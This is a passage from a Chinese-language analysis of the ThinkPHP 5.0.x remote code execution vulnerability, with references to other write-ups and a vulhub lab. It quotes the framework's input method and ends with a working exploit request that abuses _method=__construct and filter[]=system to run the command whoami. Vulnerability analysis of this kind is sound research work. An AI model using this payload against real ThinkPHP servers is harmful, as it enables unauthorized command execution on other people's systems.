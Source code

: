 

继续分析代码发现,rce的参数变为了`$this->server['REQUEST_METHOD']`

```php
public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if ('' != $name) {
            // 解析name
            if (strpos($name, '/')) {
                list($name, $type) = explode('/', $name);
            } else {
                $type = 's';
            }
            // 按.拆分成多维数组进行判断
            foreach (explode('.', $name) as $val) {
                if (isset($data[$val])) {
                    $data = $data[$val];
                } else {
                    // 无输入数据，返回默认值
                    return $default;
                }
            }
            if (is_object($data)) {
                return $data;
            }
        }

        // 解析过滤器
        $filter = $this->getFilter($filter, $default);

		...
        return $data;
    }
```

于是有

```php
http://127.0.0.1/public/index.php?s=captcha

POST:

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```



## 参考

[Smi1e ---- ThinkPHP 5.0.0~5.0.23 RCE 漏洞分析]( [https://www.smi1e.top/thinkphp-5-0-05-0-23-rce-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](https://www.smi1e.top/thinkphp-5-0-05-0-23-rce-漏洞分析/) )

 https://xz.aliyun.com/t/3845#toc-2 

 https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce 

